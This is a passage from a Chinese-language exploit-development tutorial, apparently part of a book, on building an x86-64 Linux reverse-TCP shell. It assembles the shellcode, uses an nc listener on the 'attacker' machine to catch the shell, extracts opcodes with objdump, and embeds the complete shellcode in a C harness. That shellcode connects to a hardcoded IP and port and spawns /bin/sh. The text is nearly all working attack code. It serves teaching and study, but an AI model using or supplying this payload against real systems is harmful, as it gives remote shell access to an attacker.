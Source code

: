 ```
    push rdi
    mov rsi,rsp
    add rax, 59
    syscall
```

让我们将其组装并链接到受害者机器：

```
$ nasm -felf64 reverse-tcp.nasm -o reverse-tcp.o
$ ld reverse-tcp.o -o reverse-tcp
```

然后，在我们的攻击者计算机上运行以下命令：

```
$ nc -lp 1234
```

然后，再次回到受害者机器并运行代码：

```
$ ./reverse-tcp
```

然后，在攻击者机器上，我们连接到受害者机器（Ubuntu）：

![](../images/00220.gif)

现在，让我们将其转换为外壳代码：

```
$ objdump -M intel -D reverse-tcp | grep '[0-9a-f]:' | grep -v 'file' | cut -f2 -d: | cut -f1-7 -d' ' | tr -s ' ' | tr '\t' ' ' | sed 's/ $//g' | sed 's/ /\\\x/g' | paste -d '' -s
```

上述命令的输出显示在以下屏幕截图中：

![](../images/00221.jpeg)

让我们将此机器语言复制到 C 代码中：

```
#include<stdio.h>
#include<string.h>

unsigned char code[] =

"\x48\x31\xc0\x48\x83\xc0\x29\x48\x31\xff\x48\x83\xc7\x02\x48\x31\xf6\x48\xff\xc6\x48\x31\xd2\x0f\x05\x48\x89\xc7\x48\x31\xc0\x68\xc0\xa8\xee\x01\x66\x68\x04\xd2\x66\x6a\x02\x48\x89\xe6\x48\x31\xd2\x48\x83\xc2\x10\x48\x31\xc0\x48\x83\xc0\x2a\x0f\x05\x48\x31\xc0\x48\x83\xc0\x21\x48\x31\xf6\x0f\x05\x48\x31\xc0\x48\x83\xc0\x21\x48\xff\xc6\x0f\x05\x48\x31\xc0\x48\x83\xc0\x21\x48\xff\xc6\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05";

int main()
 {
    printf("Shellcode Length: %d\n", (int)strlen(code));
    int (*ret)() = (int(*)())code;
    ret();
}
```
